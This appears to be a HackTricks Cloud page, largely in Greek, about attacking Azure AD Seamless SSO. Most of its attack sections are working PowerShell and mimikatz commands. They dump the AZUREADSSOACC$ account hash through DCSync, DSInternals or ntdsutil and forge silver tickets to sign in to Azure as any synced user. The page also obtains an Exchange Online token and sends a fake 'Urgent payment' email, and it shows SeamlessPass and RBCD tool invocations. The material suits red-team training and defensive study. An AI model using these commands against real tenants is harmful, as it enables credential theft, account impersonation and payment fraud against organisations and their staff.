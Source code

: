 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Η Seamless Single Sign-On (SSO) του Azure Active Directory (Azure AD Seamless SSO) **συνδέει αυτόματα τους χρήστες όταν βρίσκονται σε εταιρικές συσκευές** που είναι συνδεδεμένες στο εταιρικό σας δίκτυο. Όταν είναι ενεργοποιημένο, **οι χρήστες δεν χρειάζεται να πληκτρολογούν τους κωδικούς πρόσβασής τους για να συνδεθούν στο Azure AD**, και συνήθως, ούτε καν τα ονόματα χρήστη τους. Αυτή η δυνατότητα παρέχει στους χρήστες σας εύκολη πρόσβαση στις εφαρμογές σας που βασίζονται στο cloud χωρίς να χρειάζονται επιπλέον τοπικά στοιχεία.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Βασικά, η Seamless SSO του Azure AD **συνδέει τους χρήστες** όταν βρίσκονται **σε υπολογιστή που είναι συνδεδεμένος σε τοπικό τομέα**.

Υποστηρίζεται τόσο από [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) όσο και από [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Η SSO για επιτραπέζιους υπολογιστές χρησιμοποιεί **Kerberos** για την αυθεντικοποίηση. Όταν ρυθμιστεί, το Azure AD Connect δημιουργεί έναν **λογαριασμό υπολογιστή που ονομάζεται AZUREADSSOACC`$`** στο τοπικό AD. Ο κωδικός πρόσβασης του λογαριασμού `AZUREADSSOACC$` **αποστέλλεται ως απλό κείμενο στο Azure AD** κατά τη διάρκεια της ρύθμισης.

Οι **εισιτήριοι Kerberos** είναι **κρυπτογραφημένοι** χρησιμοποιώντας το **NTHash (MD4)** του κωδικού πρόσβασης και το Azure AD χρησιμοποιεί τον αποσταλμένο κωδικό πρόσβασης για να αποκρυπτογραφήσει τους εισητήριους.

**Το Azure AD** εκθέτει ένα **σημείο πρόσβασης** (https://autologon.microsoftazuread-sso.com) που δέχεται **εισιτήρια** Kerberos. Ο περιηγητής της μηχανής που είναι συνδεδεμένη σε τομέα προωθεί τα εισιτήρια σε αυτό το σημείο πρόσβασης για SSO.

### On-prem -> cloud

Ο **κωδικός πρόσβασης** του χρήστη **`AZUREADSSOACC$` ποτέ δεν αλλάζει**. Επομένως, ένας διαχειριστής τομέα θα μπορούσε να παραβιάσει τον **hash αυτού του λογαριασμού**, και στη συνέχεια να τον χρησιμοποιήσει για να **δημιουργήσει ασημένια εισιτήρια** για να συνδεθεί στο Azure με **οποιονδήποτε τοπικό χρήστη που έχει συγχρονιστεί**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Με το hash μπορείτε τώρα **να δημιουργήσετε ασημένια εισιτήρια**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Για να χρησιμοποιήσετε το silver ticket, θα πρέπει να εκτελέσετε τα εξής βήματα:

1. **Εκκίνηση του Προγράμματος Περιήγησης:** Πρέπει να εκκινήσετε το Mozilla Firefox.
2. **Ρύθμιση του Προγράμματος Περιήγησης:**
* Μεταβείτε στο **`about:config`**.
* Ρυθμίστε την προτίμηση για [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) στις καθορισμένες [τιμές](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Πρόσβαση στην Ιστοσελίδα Εφαρμογής:**
* Επισκεφθείτε μια διαδικτυακή εφαρμογή που είναι ενσωματωμένη με το AAD domain της οργάνωσης. Ένα κοινό παράδειγμα είναι το [Office 365](https://portal.office.com/).
4. **Διαδικασία Αυθεντικοποίησης:**
* Στην οθόνη σύνδεσης, πρέπει να εισαχθεί το όνομα χρήστη, αφήνοντας το πεδίο κωδικού πρόσβασης κενό.
* Για να προχωρήσετε, πατήστε είτε TAB είτε ENTER.

{% hint style="success" %}
Αυτό δεν παρακάμπτει το MFA αν είναι ενεργοποιημένο
{% endhint %}

#### Επιλογή 2 χωρίς dcsync - SeamlessPass

Είναι επίσης δυνατό να εκτελέσετε αυτήν την επίθεση **χωρίς επίθεση dcsync** για να είστε πιο διακριτικοί, όπως [εξηγείται σε αυτήν την ανάρτηση ιστολογίου](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Για αυτό χρειάζεστε μόνο ένα από τα εξής:

* **TGT ενός παραβιασμένου χρήστη:** Ακόμα και αν δεν έχετε ένα, αλλά ο χρήστης έχει παραβιαστεί, μπορείτε να αποκτήσετε ένα χρησιμοποιώντας το κόλπο ψεύτικης ανάθεσης TGT που έχει υλοποιηθεί σε πολλά εργαλεία όπως το [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) και το [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Αν έχετε το κλειδί KRBTGT, μπορείτε να δημιουργήσετε το TGT που χρειάζεστε για τον παραβιασμένο χρήστη.
* **NTLM hash ή AES key ενός παραβιασμένου χρήστη:** Το SeamlessPass θα επικοινωνήσει με τον ελεγκτή τομέα με αυτές τις πληροφορίες για να δημιουργήσει το TGT.
* **NTLM hash ή AES key του λογαριασμού AZUREADSSOACC$:** Με αυτές τις πληροφορίες και τον Αναγνωριστικό Ασφαλείας (SID) του χρήστη που θέλετε να επιτεθείτε, είναι δυνατό να δημιουργήσετε ένα service ticket και να αυθεντικοποιηθείτε με το cloud (όπως εκτελέστηκε στην προηγούμενη μέθοδο).

Τέλος, με το TGT είναι δυνατό να χρησιμοποιήσετε το εργαλείο [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) με:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Περισσότερες πληροφορίες για να ρυθμίσετε το Firefox να λειτουργεί με seamless SSO μπορούν να [**βρεθούν σε αυτήν την ανάρτηση blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Δημιουργία Kerberos tickets για χρήστες μόνο στο cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Εάν οι διαχειριστές του Active Directory έχουν πρόσβαση στο Azure AD Connect, μπορούν να **ορίσουν SID για οποιονδήποτε χρήστη cloud**. Με αυτόν τον τρόπο, τα Kerberos **tickets** μπορούν να **δημιουργηθούν και για χρήστες μόνο στο cloud**. Η μόνη απαίτηση είναι ότι το SID είναι ένα κατάλληλο [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Η αλλαγή του SID των χρηστών διαχειριστών μόνο στο cloud είναι τώρα **μπλοκαρισμένη από τη Microsoft**.\
Για πληροφορίες δείτε [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud μέσω Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Οποιοσδήποτε μπορεί να διαχειριστεί λογαριασμούς υπολογιστών (`AZUREADSSOACC$`) στο κοντέινερ ή OU όπου βρίσκεται αυτός ο λογαριασμός, μπορεί να **ρυθμίσει μια περιορισμένη ανάθεση πόρων πάνω στον λογαριασμό και να έχει πρόσβαση σε αυτόν**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Είμαι στο cloud σας, διαβάζοντας τα email όλων - hacking Azure AD μέσω Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
